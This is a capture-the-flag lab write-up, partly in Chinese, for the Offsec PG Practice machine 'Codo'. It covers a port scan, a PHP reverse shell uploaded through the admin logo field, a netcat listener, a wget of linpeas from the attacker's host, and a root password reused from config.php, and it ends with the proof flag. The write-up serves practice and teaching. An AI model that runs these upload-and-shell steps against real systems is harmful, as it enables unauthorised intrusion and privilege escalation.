

###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Codo
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.204.23 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.204.23:22
Open 192.168.204.23:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: All topics | CODOLOGIC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

可以看到他的路徑位於`http://192.168.204.23/admin/index.php?page=config`，我們在logo那邊上傳reverseshell



開啟nc，存取`192.168.204.23/sites/default/assets/img/attachments/shell.php`，等反彈
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@codo:/$ 
```

用linpeas
```
www-data@codo:/tmp$ wget 192.168.45.242/linpeas.sh
www-data@codo:/tmp$ chmod +x linpeas.sh
www-data@codo:/tmp$ ./linpeas.sh

...
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123',
...
```

`su root`使用`FatPanda123`密碼，可得root權限，到/root可拿到proof.txt
```
www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:~# cat proof.txt
3f49f13ba7f4d223e457b59fbb8d38c6
```